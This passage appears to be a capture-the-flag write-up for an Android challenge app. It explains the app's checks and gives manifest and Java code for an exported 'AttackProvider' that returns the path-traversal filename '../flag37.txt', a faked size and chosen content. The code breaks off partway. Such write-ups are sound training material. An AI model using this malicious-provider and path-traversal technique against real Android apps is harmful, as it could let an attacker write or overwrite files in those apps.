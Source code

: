 Here the activity gets an intent and takes the URI in it and use it to call a provider, then Checks if the file is named "../flag37.txt" and exactly 1337 bytes in size if true it opens an input stream to read the file and  Reads the entire file content into a `StringBuilder` then Checks if the content is exactly `"give flag"` If it matches, calls a `success()` method (likely showing success) and If not, logs that the content doesn't match

#### Solution
Here we need to create your content provider with the requirement then clicking the flag's activity from app

The Flag 37 activity performs these specific checks:
1. **Queries a content provider** via the URI from the intent
2. **Extracts metadata** from the cursor: `_display_name` and `_size` columns
3. **Validates the filename** must be exactly `"../flag37.txt"`
4. **Validates the file size** must be exactly `1337` bytes
5. **Reads the file content** using `openInputStream()`
6. **Checks if content equals** exactly `"give flag"`

The **custom content provider** that will:
- Returns the correct metadata in the `query()` method
- Provides the exact file content via `openInputStream()` or `openFile()`
- Ensures the content is exactly 1337 bytes (with padding)

```xml
<provider  
    android:name=".AttackProvider"  
    android:authorities="ItsFadinG.github.io"  
    android:enabled="true"  
    android:exported="true"></provider>
```

```java
  
public class AttackProvider extends ContentProvider {  
    public AttackProvider() {  
    }  
  
    @Override  
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {  
        Log.i("AttackProvider", "query("+uri.toString()+")");  
  
        MatrixCursor cursor = new MatrixCursor(new String[]{  
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE  
        });  
  
        cursor.addRow(new Object[]{  
                "../flag37.txt", 1337  
        });  
  
        return cursor;  
    }  
    @Override  
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {  
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");  
  
        try {  
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();  
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);  
  
            new Thread(() -> {  
                try {  
                    outputStream.write("give flag".getBytes());  
                    outputStream.close();  
```